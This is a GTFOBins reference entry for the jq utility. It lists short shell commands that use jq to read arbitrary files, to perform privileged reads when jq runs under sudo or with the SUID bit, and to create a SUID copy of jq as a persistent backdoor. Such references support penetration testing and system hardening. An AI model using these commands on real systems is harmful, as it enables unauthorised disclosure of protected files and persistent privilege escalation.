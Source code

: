# GTFOBin: jq

## File read

It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system.

```
LFILE=file_to_read
jq -Rr . "$LFILE"
```

## SUID

If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run `sh -p`, omit the `-p` argument on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

```
sudo install -m =xs $(which jq) .

LFILE=file_to_read
./jq -Rr . "$LFILE"
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
LFILE=file_to_read
sudo jq -Rr . "$LFILE"
```